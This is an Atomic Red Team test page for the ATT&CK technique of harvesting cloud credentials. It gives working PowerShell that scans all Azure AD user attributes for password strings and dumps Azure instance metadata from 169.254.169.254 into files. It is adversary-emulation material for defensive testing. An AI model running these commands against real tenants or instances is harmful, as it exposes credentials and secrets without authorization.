 # T1552.005 - Unsecured Credentials: Cloud Instance Metadata API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/005)
<blockquote>

Adversaries may attempt to access the Cloud Instance Metadata API to collect credentials and other sensitive data.

Most cloud service providers support a Cloud Instance Metadata API which is a service provided to running virtual instances that allows applications to access information about the running virtual instance. Available information generally includes name, security group, and additional metadata including sensitive data such as credentials and UserData scripts that may contain additional secrets. The Instance Metadata API is provided as a convenience to assist in managing applications and is accessible by anyone who can access the instance.(Citation: AWS Instance Metadata API) A cloud metadata API has been used in at least one high profile compromise.(Citation: Krebs Capital One August 2019)

If adversaries have a presence on the running virtual instance, they may query the Instance Metadata API directly to identify credentials that grant access to additional resources. Additionally, adversaries may exploit a Server-Side Request Forgery (SSRF) vulnerability in a public facing web proxy that allows them to gain access to the sensitive information via a request to the Instance Metadata API.(Citation: RedLock Instance Metadata API 2018)

The de facto standard across cloud service providers is to host the Instance Metadata API at <code>http[:]//169.254.169.254</code>.


</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords](#atomic-test-1---azure---search-azure-ad-user-attributes-for-passwords)

- [Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines](#atomic-test-2---azure---dump-azure-instance-metadata-from-virtual-machines)


<br/>

## Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords
This test uses the MSOnline Powershell module to retrieve all user attributes for a specified account, which can sometimes contain unsecured credentials. 
Upon successful execution, this test will scan all user attributes for any strings containing "password".
Those unsecured credentials will be output to a text file, as well as the account that they are associated with and the user attribute in which they were found. 
See: https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/Azure.md

**Supported Platforms:** Azure-ad


**auto_generated_guid:** ae9b2e3e-efa1-4483-86e2-fae529ab9fb6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module msonline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
$users = Get-MsolUser -All;
foreach($user in $users)
{$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; 
foreach($prop in $props)
{if($user.$prop -like "*password*")
{("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop) | out-file -filepath $env:temp\T1552.005Test1.txt -append -force}}}
get-content -path $env:temp\T1552.005Test1.txt -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
remove-item $env:temp\T1552.005Test1.txt -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
if (get-command Get-MsolUser -erroraction silentlycontinue){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
install-module MSOnline
```




<br/>
<br/>

## Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines
This test invokes a web request to the default Instance Metadata API of 169.254.169.254 in order to dump the data contained within it to a file. 
See: https://www.sans.org/blog/cloud-instance-metadata-services-imds-/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** cc99e772-4e18-4f1f-b422-c5cdd1bfd7b7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | File to output metadata to | string | $env:temp&#92;T1552.005Test2.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | ConvertTo-Json -Depth 64 > #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```





<br/>
